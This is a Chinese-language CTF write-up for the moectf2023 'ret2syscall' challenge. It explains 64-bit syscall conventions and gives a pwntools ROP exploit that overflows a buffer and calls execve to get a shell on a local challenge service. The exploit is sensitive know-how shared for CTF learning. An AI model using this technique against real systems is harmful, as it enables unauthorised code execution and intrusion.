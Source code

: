 ```yaml
---
title: moectf2023 - ret2syscall
date: 2023/9/26 12:00:00
tags:
    - syscall
excerpt: 利用ret2syscall漏洞在64位程序中执行execve，成功获取shell。
---
```


## 文件分析

下载`ret2syscall`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

摆明了随便打

## EXPLOIT

首先要知道64位syscall和32位syscall有什么差别:
(32位见[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall))  
64位syscall使用rax作为指令寄存器，这里我们使用execve  
然后execve的三个参数分别放在rdi, rsi, rdx三个寄存器中  
放好后执行syscall指令即可

```python
from pwn import *
sh = remote('localhost', 33359)
popRax = 0x40117e
callObj = 59 # execve
popRsiRdx = 0x401182
popRdi = 0x401180
shstr = 0x404040
syscall = 0x401185
sh.sendline(b'0'*0x48 + p64(popRax) + p64(callObj) + p64(popRsiRdx) + p64(0) + p64(0) + p64(popRdi) + p64(shstr) + p64(syscall))
sh.interactive()
```

Done.
